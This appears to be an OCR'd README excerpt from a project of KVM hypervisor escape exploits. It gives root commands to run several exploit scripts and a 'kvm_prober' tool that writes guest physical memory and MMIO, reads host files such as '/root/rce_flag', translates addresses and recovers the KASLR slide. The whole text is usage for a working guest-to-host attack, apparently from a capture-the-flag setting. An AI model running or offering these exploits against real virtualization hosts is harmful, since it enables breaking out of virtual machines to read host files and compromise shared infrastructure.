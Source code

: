 ```bash
# Run all exploit methods (RECOMMENDED)
sudo ./setup.sh exploit all

# Run specific exploits
sudo ./setup.sh exploit hybrid    # IVSHMEM + Direct (best)
sudo ./setup.sh exploit ivshmem   # IVSHMEM-focused
sudo ./setup.sh exploit direct    # Direct access only
sudo ./setup.sh exploit c         # C implementation

# Or run Python directly
sudo python3 hybrid_kvm_exploit.py
sudo python3 ivshmem_kvm_exploit.py
sudo python3 comprehensive_kvm_exploit.py
```

## 🔧 Manual kvm_prober Commands

### Memory Operations
```bash
# Write to GPA (Guest Physical Address)
kvm_prober writegpa 64279a8 4443424241efbeadde

# Read from GPA
kvm_prober readgpa 64279a8 8

# Write to MMIO
kvm_prober writemmio_val fe800000 deadbeef 8

# Read from MMIO
kvm_prober readmmio_buf fe800000 64
```

### File Operations
```bash
# Read host file (RCE)
kvm_prober readfile /root/rce_flag 0 256

# Read any host file
kvm_prober readfile /etc/hostname 0 100
```

### Address Translation
```bash
# Virtual to Physical
kvm_prober virt2phys ffffffff826279a8

# Physical to Virtual  
kvm_prober phys2virt 64279a8

# Get KASLR slide
kvm_prober getkaslr
```
